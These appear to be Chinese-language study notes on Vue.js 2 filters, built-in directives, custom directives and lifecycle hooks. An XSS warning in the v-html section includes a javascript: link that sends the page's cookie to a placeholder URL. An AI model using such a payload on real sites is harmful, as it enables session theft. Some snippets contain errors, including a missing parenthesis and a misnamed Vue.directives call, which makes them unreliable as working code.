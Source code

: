 # 过滤器
- 本质是函数
- 支持管道运算符 `{{ val | filterA | filterB(args) }}`
```html
<div id="root">
  <h2>显示格式化后的时间</h2>
  <!-- 计算属性实现 -->
  <h3>现在是：{{fmtTime}}</h3>
  <!-- methods实现 -->
  <h3>现在是：{{getFmtTime()}}</h3>
  <!-- 过滤器实现 -->
  <h3>现在是：{{time | timeFormater}}</h3>
  <!-- 过滤器实现（传参） -->
  <h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
  <h3 :x="msg | mySlice">poi</h3>
</div>

<div id="root2">
  <h2>{{msg | mySlice}}</h2>
</div>
```
```js
//全局过滤器
Vue.filter('mySlice',function(value){
  return value.slice(0,4)
})

new Vue({
  el:'#root',
  data:{
    time:1621561377603
  },
  computed: {
    fmtTime(){ return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss' }
  },
  methods: {
    getFmtTime(){ return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss') }
  },
  //局部过滤器
  filters:{
    timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
      return dayjs(value).format(str)
    }
  }
})

new Vue({
  el:'#root2',
  data:{
    msg:'hello!'
  }
})
```

# 其他指令
## v-text
- 替换整体元素的文本内容 `<el v-text="prop"></el>`
## v-html
- 相比 `v-text`，如果内容为 html 代码，可以在浏览器上解析
  - 因而，使用时要注意安全问题(XSS攻击)
  - `<a href=javascript:location.href="url?"+document.cookie>递出当前页面的cookie</a>`(可以配置 HttpOnly 使这个无效)

## v-cloak
- 初始配置`v-cloak`使el隐藏。Vue实例接管el后，移除该标签。
- 用途: 避免因脚本加载过慢导致在界面展示出未渲染的原始代码。
```html
	<head>
		<style> [v-cloak]{ display:none;} </style>
	</head>
  <body> 
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
  </body>
```

## v-once
- 只渲染数据一次，不保持数据响应
- 比如，记录一个初始值
- 如果已知数据不会改变，可以配置这个优化性能
```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

## v-pre
- 指明这个元素不需要动态渲染
- 不含动态内容的，配置这个可以优化性能

# 自定义指令
```js
new Vue({
  ...
  // 调用时机: 
  //   1.指令与元素成功绑定时
  //   2.vue实例绑定的模板重新渲染时(虽然不够精确，但是也确实没法精确实现)
  // 指令函数里面的 this 都是 window
  // 这里是局部指令
  directives:{

    // v-dt1
    dt1(element,binding){
      element.innerText = binding.value
    },
    dt2: {
      bind(el,bind){},
      inserted(el,bind){},
      update(el,bind){}
    },
    "dt-3": function(){}
  }
})
// 全局指令
Vue.directives('dt-4',{...})
Vue.directives('dt-5',funtion(){})
```

# 生命周期
![picture 2](https://p1.kodo-oss.dronekumo.xyz/95ec50905cdbaca9b7e5ae2de3ba82bc770d78fe8e486ee72cb9a59a71448dea.png)  
## 常用的2个钩子
### mounted
### beforeDestroy